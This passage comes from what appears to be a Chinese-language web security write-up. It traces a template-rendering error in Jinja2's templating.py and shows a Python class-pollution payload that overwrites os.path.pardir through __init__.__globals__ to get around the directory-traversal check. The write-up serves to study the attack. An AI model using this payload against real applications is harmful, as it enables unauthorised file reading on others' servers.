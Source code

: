 然后我们找到temlating.py下面的报错信息，然后逐步跟一下找到了报500的代码块:

[![](assets/1700528987-2c1b8f6f842483ab55ef51881e390838.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132324-c2c27d54-869b-1.png)

这个地方就是模板渲染的时候，防止目录穿梭进行的一个操作，而我们的os.path.pardir恰好是我们的..所以会进行报错，所以我们如果把这个地方进行修改为除..外的任意值，我们就可以进行目录穿梭了。

```plain
payload={
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":","
                }
            }
        }
    }
}
```

[![](assets/1700528987-e1b001a4cee59db494bb855148c3945a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132330-c6cbf36c-869b-1.png)
